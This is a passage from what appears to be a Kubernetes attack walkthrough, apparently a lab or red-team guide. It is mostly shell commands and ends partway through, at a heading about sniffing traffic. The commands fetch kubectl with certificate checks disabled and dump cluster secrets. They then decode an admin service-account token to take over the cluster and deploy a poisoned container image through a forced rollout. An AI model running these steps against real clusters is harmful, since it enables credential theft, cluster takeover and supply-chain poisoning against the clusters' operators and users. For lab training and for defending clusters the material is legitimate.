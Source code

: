 ```bash
curl -LO -k "https://dl.k8s.io/release/$(curl -L -k -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
chmod +x kubectl
./kubectl
alias kubectl="./kubectl"
kubectl auth can-i --list
kubectl get secrets
kubectl get secret connectionstrings -o yaml
```

Trying using an existing service account.

If there is a service account secret available then it can also be used:

```bash
kubectl get secret admin-service-account-token -o yaml
export TOKEN=$(kubectl get secret admin-service-account-token -o yaml -ojsonpath='{.data.token}' | base64 -d)
alias kubectl="./kubectl --token=${TOKEN}"
```

At this point we have control of the whole cluster.

```bash
kubectl get pods -A
kubectl run nginx --image nginx
kubectl delete pod nginx
```

## Creating a Poisoned Image

Build Image:

```bash
docker build -t myapp .
```

Run Website:

```bash
kubectl apply -f poisoned-pod.yaml
```

Build Poisoned Image:

```bash
docker build -t myapp -f Dockerfile.poisoned .
```

Force Pull Poisoned Image:
```bash
kubectl rollout restart deploy myapp
```

### Sniff Traffic from Command and Control Server

Install **tcpdump** on the target:

